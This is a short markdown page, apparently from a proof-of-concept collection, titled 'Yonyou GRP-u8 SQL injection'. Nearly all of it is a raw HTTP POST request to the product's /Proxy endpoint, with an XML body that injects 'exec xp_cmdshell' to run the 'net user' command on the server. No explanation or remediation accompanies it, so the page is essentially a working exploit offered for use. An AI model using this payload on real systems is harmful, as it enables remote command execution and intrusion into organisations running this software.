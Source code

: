 # 用友GRP-u8 SQL注入

```
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET
version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRe
quest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA
format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME
><DATA format="text">exec xp_cmdshell 'net
user'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

![image-20201020120505719](.resource/%E7%94%A8%E5%8F%8BGRP-u8%20SQL%E6%B3%A8%E5%85%A5/media/image-20201020120505719.png)